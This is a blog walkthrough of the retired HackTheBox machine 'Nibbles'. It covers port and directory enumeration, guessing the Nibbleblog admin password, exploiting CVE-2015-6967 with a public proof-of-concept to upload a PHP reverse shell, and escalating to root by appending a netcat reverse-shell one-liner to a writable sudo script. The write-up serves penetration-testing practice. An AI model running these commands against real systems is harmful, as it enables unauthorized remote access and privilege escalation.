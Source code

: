 ```yaml
---
layout: post
title: "Nibbles"
date: 2025-07-27 15:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Nibbleblog, CVE-2015-6967, file_permissions]
author: klein
image: [object Object]
---
```


This notes-style walkthrough will be conducted using HackTheBox Guided Mode for this retired machine.

### How many open TCP ports are listening on Nibbles?

As always the first few questions can be answered with basic enumeration. Let's do an Nmap scan.

```bash
nmap -sC -sV -oN nibbles 10.129.96.84 -vv
```

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### What is the relative path on the webserver to a blog?

Take a look at the web application. Loading the web page we are greeted with a "Hello world!" message. 

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727113535.png)

As directory enumeration would be the next logical step for me, the source code gives away the relative path.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727113631.png)

### What content management system (CMS) is being used by the blog??

This is usually straight away disclosed on the front web page or in the source code, in the server headers, somewhere that does not need a deep dive into the application. This case is as usual, the CMS is being disclosed on the front page.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727114004.png)

### What is the relative path to an XML file that contains the admin username?


Using a tool named feroxbuster we find the directory that hides this information.
```bash
feroxbuster -u http://10.129.96.84/nibbleblog --scan-dir-listings 
```


![image](/images/2025-07-27-Nibbles/Pasted-image-20250727120910.png)

Taking a look here we find the admin username:
![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121140.png)

### What is the admin user's password to log into the blog?

With older HackTheBox machine it is always fair game to assume to try the name of the box as a password.

### What version of nibble blog is running on the target machine? Do not include the "v".

I found the version number in the following directory, this comes from the feroxbuster output.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121730.png)

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121754.png)

### What is the 2015 CVE ID for an authenticated code execution by file upload vulnerability in this version of NibbleBlog.

Quick Google search reveals this information:

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727121836.png)

### Which user the Nibbleblog instance is running on the target machine?

To answer this question a shell on the machine is required, as far as I researched it there are multiple ways of doing that. However, the easiest way was to use a POC exploit from GitHub.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727123908.png)

By following the instructions I created a PHP reverse shell ( from pentestmonkey) which got uploaded and then executed.

```bash
python3 exploit.py --url http://10.129.96.84/nibbleblog/ --username admin --password nibbles --payload shell1.php
```

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124038.png)

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124053.png)

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124127.png)

### What is the name of the script that nibbler can run as root on Nibbles?

To find out this, just run sudo -l.

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

### Enter the permission set on monitor.sh? Use the Linux file permissions format, like -rw-rw-r--.

I had to unzip the personal.zip file and got access to the bash script.

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727124637.png)

This means that we can execute it as root and at the same time write to the file with our current privileges. Let's append a reverse shell to the end of the file.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.121 9002 >/tmp/f' | tee -a monitor.sh
```

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727130314.png)

![image](/images/2025-07-27-Nibbles/Pasted-image-20250727130637.png)

